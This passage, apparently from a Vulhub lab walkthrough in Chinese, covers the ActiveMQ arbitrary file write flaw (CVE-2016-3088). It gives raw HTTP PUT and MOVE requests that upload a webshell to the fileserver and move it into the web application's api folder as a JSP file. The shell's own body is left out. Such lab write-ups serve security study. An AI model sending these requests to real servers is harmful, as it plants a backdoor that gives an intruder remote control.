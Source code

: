 ![查看 ActiveMQ 的绝对路径](./../../../../images/Vulhub/activemq/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-3088%EF%BC%89/%E5%86%99%E5%85%A5%20webshell/%E6%9F%A5%E7%9C%8B%20ActiveMQ%20%E7%9A%84%E7%BB%9D%E5%AF%B9%E8%B7%AF%E5%BE%84.png)

然后上传webshell：

```http
PUT /fileserver/2.txt HTTP/1.1
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

移动到web目录下的api文件夹（/opt/activemq/webapps/api/s.jsp）中：

```http
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```
